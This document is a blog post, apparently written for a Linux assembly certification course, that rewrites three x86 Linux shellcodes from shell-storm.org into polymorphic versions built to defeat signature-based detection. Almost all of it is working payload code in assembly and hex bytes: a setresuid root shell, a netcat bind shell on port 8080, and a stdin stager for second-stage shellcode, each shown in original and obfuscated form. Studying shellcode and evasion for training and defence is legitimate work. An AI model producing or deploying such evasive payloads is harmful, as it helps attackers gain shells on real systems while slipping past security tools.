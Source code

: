 ```yaml
---
layout: single
title: Creating Polymorphic Shellcode
date: 2018-09-21
categories:
  - security
  - shellcoding
tags:
  - securitytube
  - slae
---
```


Assignment 6 of the [SecurityTube Linux Assembly Expert Certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) consists of taking three shellcode samples from [shell-storm.org](http://shell-storm.org/) and creating polymorphic examples that are no larger than 150% the original size.

The goal of this task is to mimic the same original functionality, but to beat pattern matching techniques that could be used to fingerprint the payload.

Below are the three samples that I chose to use and the polymorphic version of each that I created.

Sample 1: setresuid(0,0,0)-/bin/sh
----------------------------------
* **Original length:** 35 bytes
* **Polymorphic length:** 51 bytes (45% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-216.php](http://shell-storm.org/shellcode/files/shellcode-216.php)

**Original code:**
```nasm
;setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq
mov BYTE al, 0xa4
int 0x80

;execve("/bin//sh", ["/bin//sh", NULL], [NULL])
push BYTE 11
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push ecx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
```

```
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    ; setresuid(0,0,0)
    lea     eax, [0xab32a1a5]
    sub     eax, 0xab32a101
    cdq
    mov     ebx, edx
    mov     ecx, ebx
    int     0x80

    ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
    push    ebx
    xor     eax, eax
    mov     al, 0xb
    mov     edi, 0xd34db3ef
    mov     ebx, 0xbb3e9cc0
    xor     ebx, edi
    push    ebx
    mov     ebx, 0xbd24d1c0
    xor     ebx, edi
    push    ebx
    push    edx
    lea     ebx, [esp + 4]
    int     0x80
```

```
\x8d\x05\xa5\xa1\x32\xab\x2d\x01\xa1\x32\xab\x99\x89\xd3\x89\xd9\xcd\x80\x53\x31\xc0\xb0\x0b\xbf\xef\xb3\x4d\xd3\xbb\xc0\x9c\x3e\xbb\x31\xfb\x53\xbb\xc0\xd1\x24\xbd\x31\xfb\x53\x52\x8d\x5c\x24\x04\xcd\x80
```

Sample 2: netcat bindshell port 8080
------------------------------------
* **Original length:** 75 bytes
* **Polymorphic length:** 85 bytes (13% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-684.php](http://shell-storm.org/shellcode/files/shellcode-684.php)

**Original code:**
```
00000000  EB2A              jmp short 0x2c
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884607            mov [esi+0x7],al
00000008  88460F            mov [esi+0xf],al
0000000B  884619            mov [esi+0x19],al
0000000E  89761A            mov [esi+0x1a],esi
00000011  8D5E08            lea ebx,[esi+0x8]
00000014  895E1E            mov [esi+0x1e],ebx
00000017  8D5E10            lea ebx,[esi+0x10]
0000001A  895E22            mov [esi+0x22],ebx
0000001D  894626            mov [esi+0x26],eax
00000020  B00B              mov al,0xb
00000022  89F3              mov ebx,esi
00000024  8D4E1A            lea ecx,[esi+0x1a]
00000027  8D5626            lea edx,[esi+0x26]
0000002A  CD80              int 0x80
0000002C  E8D1FFFFFF        call 0x2
00000031  2F                das
00000032  62696E            bound ebp,[ecx+0x6e]
00000035  2F                das
00000036  6E                outsb
00000037  6323              arpl [ebx],sp
00000039  2D6C703830        sub eax,0x3038706c
0000003E  3830              cmp [eax],dh
00000040  232D652F6269      and ebp,[dword 0x69622f65]
00000046  6E                outsb
00000047  2F                das
00000048  7368              jnc 0xb2
0000004A  23                db 0x23
```

```
\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    mov   edi, 0x01010101
    mov   ecx, edi
    xor   ecx, edi

    push  0x01010169
    push  0x722e6f68
    push  0x632e642c
    push  0x01303931
    push  0x39716d2c
    push  0x01626f2e
    push  0x6f68632e
    push  edi

    mov   cl, 0x8
    mov   bl, 0x4

  decode:
    mov   eax, ecx
    sub   eax, 0x1
    mul   ebx
    xor   [esp + eax], edi
    loop  decode

    mov   al, 0xc
    sub   al, 0x1
    lea   ebx, [esp + 0x4]
    lea   edx, [ebx + 0x8]
    push  edx
    lea   edx, [ebx + 0x10]
    push  edx
    push  ebx
    lea   ecx, [esp]
    xor   edx, edx
    int   0x80
```

```
\xbf\x01\x01\x01\x01\x89\xf9\x31\xf9\x68\x69\x01\x01\x01\x68\x68\x6f\x2e\x72\x68\x2c\x64\x2e\x63\x68\x31\x39\x30\x01\x68\x2c\x6d\x71\x39\x68\x2e\x6f\x62\x01\x68\x2e\x63\x68\x6f\x57\xb1\x08\xb3\x04\x89\xc8\x83\xe8\x01\xf7\xe3\x31\x3c\x04\xe2\xf4\xb0\x0c\x2c\x01\x8d\x5c\x24\x04\x8d\x53\x08\x52\x8d\x53\x10\x52\x53\x8d\x0c\x24\x31\xd2\xcd\x80
```

Sample 3: stager that reads second stage shellcode (127 bytes maximum) from stdin
----------------------------------------------------------------------------------
* **Original length:** 14 bytes
* **Polymorphic length:** 18 bytes (28% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-824.php](http://shell-storm.org/shellcode/files/shellcode-824.php)

**Original code:**
```c
/*
 * (linux/x86) stagger that reads second stage shellcode (127 bytes maximum) from stdin - 14 bytes
 * _fkz / twitter: @_fkz
 *
 * sc = "\x6A\x7F\x5A\x54\x59\x31\xDB\x6A\x03\x58\xCD\x80\x51\xC3"
 *
 * Example of use:
 * (echo -ne "\xseconde stage shellcode\x"; cat) | ./stager
 */

 char shellcode[] =

 		"\x6A\x7F"		//	push	byte	+0x7F
 		"\x5A"			//	pop		edx
 		"\x54"			//	push	esp
 		"\x59"			//	pop		esp
 		"\x31\xDB"		//	xor		ebx,ebx
 		"\x6A\x03"		//	push	byte	+0x3
 		"\x58"			//	pop		eax
 		"\xCD\x80"		//	int		0x80
 		"\x51"			//	push	ecx
 		"\xC3";			//	ret

int main(int argc, char *argv[])
{
	void (*execsh)() = (void *)&shellcode;
	execsh();
	return 0;
}
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    lea   ecx, [esp]
    mov   eax, 0xd34db3ef
    cdq
    mov   ebx, edx
    mov   eax, ebx
    mov   al, 0x3
    mov   dl, 0x7f
    int   0x80
    call  ecx
```

```
\x8d\x0c\x24\x31\xc0\x99\x89\xd3\x89\xd8\xb0\x03\xb2\x7f\xcd\x80\xff\xd1
```

<hr />

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

Student ID: SLAE-1340

All source files can be found on GitHub at [https://github.com/rastating/slae](https://github.com/rastating/slae)
